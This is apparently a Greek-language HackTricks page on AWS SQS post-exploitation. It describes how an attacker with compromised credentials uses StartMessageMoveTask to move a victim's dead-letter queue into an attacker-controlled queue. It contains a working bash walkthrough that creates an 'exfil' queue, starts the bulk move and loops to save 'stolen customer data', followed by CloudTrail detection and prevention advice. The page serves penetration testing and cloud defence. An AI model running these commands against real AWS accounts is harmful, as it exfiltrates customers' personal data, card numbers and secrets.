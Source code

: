 # AWS – SQS DLQ Redrive Exfiltration via StartMessageMoveTask

{{#include ../../../banners/hacktricks-training.md}}

## Description

Κακοχρησιμοποιήστε τα message move tasks του SQS για να κλέψετε όλα τα συσσωρευμένα μηνύματα από την Dead-Letter Queue (DLQ) ενός θύματος ανακατευθύνοντάς τα σε μια ουρά υπό τον έλεγχο του επιτιθέμενου χρησιμοποιώντας `sqs:StartMessageMoveTask`. Αυτή η τεχνική εκμεταλλεύεται τη νόμιμη λειτουργία ανάκτησης μηνυμάτων του AWS για να εξαγάγει ευαίσθητα δεδομένα που έχουν μαζευτεί σε DLQs με την πάροδο του χρόνου.

## What is a Dead-Letter Queue (DLQ)?

Μια Dead-Letter Queue είναι μια ειδική SQS ουρά όπου στέλνονται αυτόματα μηνύματα όταν αποτυγχάνουν να επεξεργαστούν επιτυχώς από την κύρια εφαρμογή. Αυτά τα αποτυχημένα μηνύματα συχνά περιέχουν:
- Ευαίσθητα δεδομένα εφαρμογής που δεν μπόρεσαν να επεξεργαστούν
- Λεπτομέρειες σφαλμάτων και πληροφορίες debugging
- Personal Identifiable Information (PII)
- API tokens, credentials, ή άλλα secrets
- Business-critical transaction data

Οι DLQs λειτουργούν σαν «νεκροταφείο» για αποτυχημένα μηνύματα, καθιστώντας τες πολύτιμους στόχους αφού συσσωρεύουν ευαίσθητα δεδομένα με την πάροδο του χρόνου που οι εφαρμογές δεν μπόρεσαν να διαχειριστούν σωστά.

## Attack Scenario

**Real-world example:**
1. **E-commerce application** επεξεργάζεται παραγγελίες πελατών μέσω SQS
2. **Μερικές παραγγελίες αποτυγχάνουν** (προβλήματα πληρωμής, αποθέματος κ.λπ.) και μετακινούνται σε DLQ
3. **Η DLQ συσσωρεύει** εβδομάδες/μήνες αποτυχημένων παραγγελιών με δεδομένα πελατών: `{"customerId": "12345", "creditCard": "4111-1111-1111-1111", "orderTotal": "$500"}`
4. **Ο επιτιθέμενος αποκτά πρόσβαση** σε AWS credentials με δικαιώματα SQS
5. **Ο επιτιθέμενος ανακαλύπτει** ότι η DLQ περιέχει χιλιάδες αποτυχημένες παραγγελίες με ευαίσθητα δεδομένα
6. **Αντί να προσπαθεί να προσπελάσει μεμονωμένα μηνύματα** (αργό και εμφανές), ο επιτιθέμενος χρησιμοποιεί `StartMessageMoveTask` για να μεταφέρει μαζικά ΟΛΑ τα μηνύματα στην ουρά του
7. **Ο επιτιθέμενος εξάγει** όλα τα ιστορικά ευαίσθητα δεδομένα σε μία ενέργεια

## Requirements
- Η source queue πρέπει να είναι διαμορφωμένη ως DLQ (αναφερόμενη από τουλάχιστον μία queue RedrivePolicy).
- IAM permissions (εκτελούμενα ως ο συμβιβασμένος victim principal):
- Στην DLQ (source): `sqs:StartMessageMoveTask`, `sqs:GetQueueAttributes`.
- Στην destination queue: δικαίωμα παράδοσης μηνυμάτων (π.χ. queue policy που επιτρέπει `sqs:SendMessage` από το victim principal). Για προορισμούς στο ίδιο account αυτό συνήθως επιτρέπεται εξ ορισμού.
- Εάν είναι ενεργοποιημένο SSE-KMS: στο source CMK `kms:Decrypt`, και στο destination CMK `kms:GenerateDataKey`, `kms:Encrypt`.

## Impact
Εξαγωγή ευαίσθητων payloads που έχουν συσσωρευτεί σε DLQs (failed events, PII, tokens, application payloads) με μεγάλη ταχύτητα χρησιμοποιώντας τις εγγενείς SQS APIs. Λειτουργεί cross-account αν η destination queue policy επιτρέπει `SendMessage` από το victim principal.

## How to Abuse

- Εντοπίστε το victim DLQ ARN και βεβαιωθείτε ότι αναφέρεται όντως ως DLQ από κάποια ουρά (οποιαδήποτε ουρά αρκεί).
- Δημιουργήστε ή επιλέξτε μια destination queue υπό τον έλεγχο του επιτιθέμενου και πάρτε το ARN της.
- Ξεκινήστε ένα message move task από την victim DLQ προς την destination queue σας.
- Παρακολουθήστε την πρόοδο ή ακυρώστε αν χρειαστεί.

### CLI Example: Exfiltrating Customer Data from E-commerce DLQ

**Scenario**: Ένας επιτιθέμενος έχει συμβιβάσει AWS credentials και ανακάλυψε ότι μια e-commerce εφαρμογή χρησιμοποιεί SQS με μια DLQ που περιέχει αποτυχημένες προσπάθειες επεξεργασίας παραγγελιών πελατών.

1) **Discover and examine the victim DLQ**
```bash
# List queues to find DLQs (look for names containing 'dlq', 'dead', 'failed', etc.)
aws sqs list-queues --queue-name-prefix dlq

# Let's say we found: https://sqs.us-east-1.amazonaws.com/123456789012/ecommerce-orders-dlq
VICTIM_DLQ_URL="https://sqs.us-east-1.amazonaws.com/123456789012/ecommerce-orders-dlq"
SRC_ARN=$(aws sqs get-queue-attributes --queue-url "$VICTIM_DLQ_URL" --attribute-names QueueArn --query Attributes.QueueArn --output text)

# Check how many messages are in the DLQ (potential treasure trove!)
aws sqs get-queue-attributes --queue-url "$VICTIM_DLQ_URL" \
--attribute-names ApproximateNumberOfMessages
# Output might show: "ApproximateNumberOfMessages": "1847"
```
2) **Δημιουργήστε attacker-controlled destination queue**
```bash
# Create our exfiltration queue
ATTACKER_Q_URL=$(aws sqs create-queue --queue-name hacker-exfil-$(date +%s) --query QueueUrl --output text)
ATTACKER_Q_ARN=$(aws sqs get-queue-attributes --queue-url "$ATTACKER_Q_URL" --attribute-names QueueArn --query Attributes.QueueArn --output text)

echo "Created exfiltration queue: $ATTACKER_Q_ARN"
```
3) **Εκτέλεση μαζικής κλοπής μηνυμάτων**
```bash
# Start moving ALL messages from victim DLQ to our queue
# This operation will transfer thousands of failed orders containing customer data
echo "Starting bulk exfiltration of $SRC_ARN to $ATTACKER_Q_ARN"
TASK_RESPONSE=$(aws sqs start-message-move-task \
--source-arn "$SRC_ARN" \
--destination-arn "$ATTACKER_Q_ARN" \
--max-number-of-messages-per-second 100)

echo "Move task started: $TASK_RESPONSE"

# Monitor the theft progress
aws sqs list-message-move-tasks --source-arn "$SRC_ARN" --max-results 10
```
4) **Συλλογή των κλεμμένων ευαίσθητων δεδομένων**
```bash
# Receive the exfiltrated customer data
echo "Receiving stolen customer data..."
aws sqs receive-message --queue-url "$ATTACKER_Q_URL" \
--attribute-names All --message-attribute-names All \
--max-number-of-messages 10 --wait-time-seconds 5

# Example of what an attacker might see:
# {
#   "Body": "{\"customerId\":\"cust_12345\",\"email\":\"john@example.com\",\"creditCard\":\"4111-1111-1111-1111\",\"orderTotal\":\"$299.99\",\"failureReason\":\"Payment declined\"}",
#   "MessageId": "12345-abcd-6789-efgh"
# }

# Continue receiving all messages in batches
while true; do
MESSAGES=$(aws sqs receive-message --queue-url "$ATTACKER_Q_URL" \
--max-number-of-messages 10 --wait-time-seconds 2 --output json)

if [ "$(echo "$MESSAGES" | jq '.Messages | length')" -eq 0 ]; then
echo "No more messages - exfiltration complete!"
break
fi

echo "Received batch of stolen data..."
# Process/save the stolen customer data
echo "$MESSAGES" >> stolen_customer_data.json
done
```
### Δια-λογαριαστικές σημειώσεις
- Η ουρά προορισμού πρέπει να έχει resource policy που επιτρέπει στον victim principal το `sqs:SendMessage` (και, αν χρησιμοποιείται, τα grants/permissions του KMS).

## Γιατί αυτή η επίθεση είναι αποτελεσματική

1. **Νόμιμη δυνατότητα του AWS**: Χρησιμοποιεί ενσωματωμένη λειτουργικότητα του AWS, καθιστώντας δύσκολο τον εντοπισμό ως κακόβουλο
2. **Μαζική λειτουργία**: Μεταφέρει χιλιάδες μηνύματα γρήγορα αντί για αργή μεμονωμένη πρόσβαση
3. **Ιστορικά δεδομένα**: DLQs συσσωρεύουν ευαίσθητα δεδομένα σε εβδομάδες/μήνες
4. **Κάτω από το ραντάρ**: Πολλοί οργανισμοί δεν παρακολουθούν στενά την πρόσβαση στα DLQ
5. **Cross-Account Capable**: Μπορεί να εξάγει σε λογαριασμό AWS του επιτιθέμενου εάν τα δικαιώματα το επιτρέπουν

## Ανίχνευση και Πρόληψη

### Ανίχνευση
Παρακολουθήστε το CloudTrail για ύποπτες κλήσεις API `StartMessageMoveTask`:
```json
{
"eventName": "StartMessageMoveTask",
"sourceIPAddress": "suspicious-ip",
"userIdentity": {
"type": "IAMUser",
"userName": "compromised-user"
},
"requestParameters": {
"sourceArn": "arn:aws:sqs:us-east-1:123456789012:sensitive-dlq",
"destinationArn": "arn:aws:sqs:us-east-1:attacker-account:exfil-queue"
}
}
```
### Πρόληψη
1. **Ελάχιστα δικαιώματα**: Περιορίστε τα δικαιώματα `sqs:StartMessageMoveTask` μόνο στους απαραίτητους ρόλους
2. **Παρακολούθηση DLQs**: Διαμορφώστε συναγερμούς CloudWatch για ασυνήθιστη δραστηριότητα στα DLQs
3. **Πολιτικές μεταξύ λογαριασμών**: Ελέγξτε προσεκτικά τις πολιτικές ουρών SQS που επιτρέπουν πρόσβαση μεταξύ λογαριασμών
4. **Κρυπτογράφηση DLQs**: Χρησιμοποιήστε SSE-KMS με περιορισμένες πολιτικές κλειδιών
5. **Τακτικός καθαρισμός**: Μην αφήνετε ευαίσθητα δεδομένα να σωρεύονται στα DLQs επ' αόριστον

{{#include ../../../banners/hacktricks-training.md}}

